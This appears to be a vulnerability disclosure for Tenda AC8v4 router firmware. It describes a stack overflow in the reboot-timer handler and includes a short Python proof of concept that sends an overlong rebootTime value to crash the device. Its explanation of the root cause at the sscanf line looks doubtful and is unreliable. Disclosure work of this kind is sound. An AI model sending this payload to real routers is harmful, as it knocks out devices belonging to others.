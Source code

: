## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3518.html

## Affected version

AC8v4 V16.03.34.06
url = "http://192.168.1.100:80/goform/SetSysAutoRebbotCfg

## Vulnerability details

The Tenda AC8v4 V16.03.34.06 firmware has a stack overflow vulnerability in the `formSetRebootTimer` function. The `__s1_00` variable receives the `rebootTime` parameter from a POST request and is later assigned to the function `FUN_004a8838(__s1_00);`. However, since the user can control the input of `rebootTime`, the statement `iVar1 = sscanf(param_1,"%d:%d",&local_18,&local_14);` can cause a buffer overflow. The user-provided  `rebootTime` can exceed the capacity of the `local_18, local_14` array, triggering this security vulnerability.

![reboottimer.png](images/reboottimer.png)

![4a8838.png](images/4a8838.png)

## POC

```python
import requests

url = "http://192.168.1.100:80/goform/SetSysAutoRebbotCfg"

bindnum_value = "aaaaa"
list_value = "00:7777777777Y7kkkXkkkk77777777777777777778aa" 

data = {
    "aotEn": bindnum_value,
    "rebootTime": list_value
}

response = requests.post(url, data=data)

print(f"Status Code: {response.status_code}")
print(f"Response Text: {response.text}")
```

![image-reboot_httpd.png](images/reboot_httpd.png)
![image-python_crash.png](images/reboot_python_crash.png)